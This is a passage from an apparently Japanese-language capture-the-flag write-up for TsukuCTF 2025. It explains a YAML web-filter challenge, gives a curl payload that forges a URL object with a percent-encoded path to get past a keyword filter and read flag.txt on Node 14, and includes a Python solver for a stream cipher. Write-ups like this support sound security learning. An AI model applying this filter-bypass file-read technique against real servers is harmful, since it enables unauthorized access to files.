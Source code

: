 `TsukuCTF25{Tr4d1on4l_P4th_Trav3rs4l}`

### YAMLwaf [71 solve]

```js
    if (req.body.includes('flag')) {
      return res.status(403).send('Not allowed!');
    }
    if (req.body.includes('\\') || req.body.includes('/')
      || req.body.includes('!!') || req.body.includes('<')) {
      return res.status(403).send('Hello, Hacker :)');
    }
    const data = yaml.load(req.body);
    const filePath = data.file;

    if (filePath && fs.existsSync(filePath)) {
      const content = fs.readFileSync(filePath, 'utf8');
      return res.send(content);
    }
```

`String.includes`か`yaml.load`か`fs.existsSync`の問題を疑った。前者２つには特に存在しなかったが[^yaml]、`fs.existsSync`の実装を読んでいたところ、引数の型として`string | URL | Buffer`を受け取ることが判明。

[^yaml]: yaml側の問題として、binaryタグを工夫すれば使えるっぽい。

https://github.com/nodejs/node/blob/v14.x/lib/fs.js#L258

URLオブジェクトからpathに変換する処理で、まず`isURLInstance`が`true`になる事が必要。これには`path.href`と`path.origin`の存在が必要（中身は何でも良い）。そして`path.protocol === ''file:''`が必要。その後の`getPathFromURLPosix`で`path.hostname === ''`が必要。そしたら`decodeURIComponent(pathname)`の値がパス名として返却される。

https://github.com/nodejs/node/blob/v14.x/lib/internal/url.js#L1366

ということはyamlでこのobjectを再現し、`flag`文字列の一部をURIエンコードすれば良い。

```bash
curl -X POST "http://20.2.250.108:50001" -H "Content-Type: text/plain" -d $'file:\n href: a\n protocol: "file:"\n hostname: ""\n pathname: fl%61g.txt\n origin: "a"'
```

`TsukuCTF25{YAML_1s_d33p!}`

なお、手元の最新環境では`origin`が必要なかったのでDockerfile確認したら実行環境はNode14でした;;

## Crypto

### a8tsukuctf [241 solve]

鍵長を超えた分は以前の暗号文を鍵ストリームとして再利用するというストリーム暗号。
平文と暗号文の関係を逆算し、8文字目以降の鍵ストリームを求めることで復号に成功。

```python
cipher = "ayb wpg uujmz pwom jaaaaaa aa tsukuctf, hj vynj? mml ogyt re ozbiymvrosf bfq nvjwsum mbmm ef ntq gudwy fxdzyqyc, yeh sfypf usyv nl imy kcxbyl ecxvboap, epa 'avb' wxxw unyfnpzklrq."

letters = [c for c in cipher if c.islower()]
p = ['?'] * len(letters)
for j in range(8, len(letters)):
    Cj = ord(letters[j]) - ord('a')
    Cjm8 = ord(letters[j - 8]) - ord('a')
    pj = (Cj - Cjm8) % 26
    p[j] = chr(pj + ord('a'))

plaintext = list(cipher)
li = 0
for i, c in enumerate(plaintext):
    if c.islower():
        plaintext[i] = p[li]
        li += 1
```

[^order]: http://blog.lkan.onl/posts/TsukuCTF_2025/#xortsukushift-34-solve より
[^gohan]: こんだけ写真を上げていたらすぐにどのお店か分かっちゃいそうですね。